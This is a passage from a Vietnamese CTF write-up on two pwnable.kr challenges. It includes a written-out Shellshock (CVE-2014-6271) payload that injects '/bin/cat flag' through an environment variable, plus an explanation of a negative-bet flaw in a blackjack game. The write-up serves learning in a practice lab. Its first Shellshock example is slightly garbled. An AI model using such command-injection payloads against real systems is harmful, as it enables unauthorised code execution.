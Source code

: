 ![alt img](/img/2025/pwnable.kr/image-4.png)

- Với bài này, mình chưa biết shellshork là gì, nên sẽ đi tìm hiểu trước.


> Shellshock là một lỗ hổng bảo mật nghiêm trọng được phát hiện vào năm 2014 trong GNU Bash, cho phép kẻ tấn công thực thi mã tùy ý trên hệ thống.

> Lỗ hổng xảy ra khi Bash xử lý các biến môi trường (environment variables). Nếu một biến môi trường chứa một hàm (function) và tiếp tục có lệnh ngoài sau đó, Bash sẽ thực thi lệnh đó.

> Ví dụ:

`env var='() {(a)=>\' bash -c "echo Hacked"; echo "Hello"`
> Giải thích: 
> env var='() {(a)=>\' bash -c "echo Hacked"': Tạo một biến môi trường x chứa một function trống.
echo "Hello": Chạy một lệnh bash, nhưng do lỗi Shellshock, Bash sẽ thực thi echo HACKED trước cả khi chạy echo Hello.

Dựa vào những gì mình tìm hiểu được về **shellshork** thì bài này cần phải tạo một biến ENV chứa lỗi shellshork in ra flag => Run binary => Get flag

```bash
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
shellshock@pwnable:~$
```

### blackjack

```
Start day: 9/3/2025
End day: 9/3/2025
Evaluate: Beginner
```

```txt
Information: 1 point

Hey! check out this C implementation of blackjack game!
I found it online
* http://cboard.cprogramming.com/c-programming/114023-simple-blackjack-program.html

I like to give my flags to millionares.
how much money you got?


Running at : nc pwnable.kr 9009
```

Đọc qua mã nguồn thì nhận thấy bài này mắc phải lỗi là không kiểm tra số tiền đặt cược của người chơi => Người chơi bet tiền âm < 0 và thua cuộc => Tiền của người chơi tăng lên thay vì giảm xuống.

=> Bet 1.000.000 rồi cứ bốc tiếp tới khi thua => Bú flag

(Lần đầu tiên trong đời chơi Xì dách mà 20 điểm vẫn không được dằn @^@)
